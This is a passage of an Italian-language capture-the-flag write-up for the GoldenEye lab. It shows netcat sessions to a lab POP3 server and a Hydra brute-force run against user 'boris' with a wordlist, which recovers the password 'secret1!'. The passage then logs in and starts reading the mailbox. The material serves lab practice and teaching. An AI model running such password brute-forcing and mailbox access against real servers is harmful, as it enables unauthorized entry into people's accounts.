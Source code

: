 ```
Please email a qualified GNO supervisor to receive the online **GoldenEye Operators Training** to become an Administrator of the GoldenEye system

Remember, since **_security by obscurity_** is very effective, we have configured our pop3 service to run on a very high non-default port
```
ti preghiamo di inviare un'e-mail a un supervisore GNO qualificato per ricevere la formazione online degli operatori Goldeneye per diventare un amministratore del Goldeneye System- dal momento che la sicurezza dell'oscurità è molto efficace, abbiamo configurato il nostro servizio POP3 per correre su una porta molto non defefault

Passiamo ai prossimi passi troviamo il servizio POP3
Lo troviamo su
```
nc 10.10.183.248 55007
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
Pass InvincibleHack3r
-ERR [AUTH] Authentication failed.
```
Dai un'occhiata ad alcuni degli altri servizi che hai trovato durante la scansione Nmap. Le credenziali che hai sono riutilizzabili?
```
no
```
Se quelle credenziali non sembrano funzionare, puoi usare un altro programma per trovare altri utenti e password? Magari Hydra? Qual è la loro nuova password?
```
hydra -l boris -P /usr/share/set/src/fasttrack/wordlist.txt
```

```
[55007][pop3] host: 10.10.183.248   login: boris   password: secret1!
1 of 1 target successfully completed, 1 valid password found
```

```
secret1!
```
Ispeziona la porta 55007: quale servizio è configurato per utilizzare questa porta?
```
pop3
```


```
nc 10.10.183.248 55007
```

```
USER boris
```

```
Pass secret1!
```
chiediamo lista dei messaggi
```
list
```
```
+OK 3 messages:
1 544
2 373
3 921
.
```
leggiamo i messaggi, iniziamo dal primo
```
retr 1
```
